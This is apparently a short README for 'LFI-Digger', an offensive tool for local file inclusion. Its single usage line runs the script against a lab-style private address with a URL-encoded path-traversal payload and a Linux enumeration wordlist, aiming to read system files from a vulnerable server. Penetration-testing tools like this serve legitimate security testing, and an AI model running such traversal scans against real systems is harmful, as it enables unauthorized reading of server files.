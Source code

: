 # LFI-Digger

Usage example:
python lfidigger.py "http://10.17.0.11/lfi_vulnerable.php?lfiparam=%2f..%2f..%2fLFI" ./dics/linux_enum.txt
